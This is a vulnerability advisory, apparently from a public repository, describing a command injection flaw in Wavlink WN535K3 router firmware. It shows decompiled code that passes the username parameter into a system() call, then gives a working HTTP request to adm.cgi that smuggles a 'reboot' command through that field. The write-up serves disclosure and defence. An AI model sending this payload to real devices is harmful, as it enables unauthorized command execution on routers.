 ## Wavlink WN535K3 command injection

### Overview

* Vendor: Wavlink

* Product: Wavlink WN535K3
* Version: 20191010

* Manufacturer's address：https://www.wavlink.com/en_us/product/WL-WN535K3.html
* Firmware download address ：https://www.wavlink.com/zh_cn/firmware/details/7.html

### Vulnerability details

Wavlink WN535K3 20191010 was found to contain a command injection vulnerability in the `set_sys_adm` function via the `username` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

```
1 FILE *__fastcall set_sys_adm(int a1)
2 {
3 	...
4 	v9 = (const char *)web_get("username", a1, 0);  //parameter control by user
5 	v12 = strdup(v9);
6 	v11 = (const char *)web_get("newpass", a1, 0);   
7 	v13 = strdup(v11);
8 	if ( *v12 )
9 	{
10 	if ( *v13 )
11 	{
12   	sprintf(v20, "echo ‐n %s:%s > /tmp/tmpchpw && /usr/sbin/chpasswd < /tmp/tmpchpw && rm ‐fr /tmp/tmpchpw", v12, v13);
13   	system(v20);     //system call
14 		...
15 	}
16 ...
17 }
```

#### PoC

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 112
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.0.254
Cookie: session=562230006

page=set_sys_adm&username=1;reboot;&newpass=foo
```

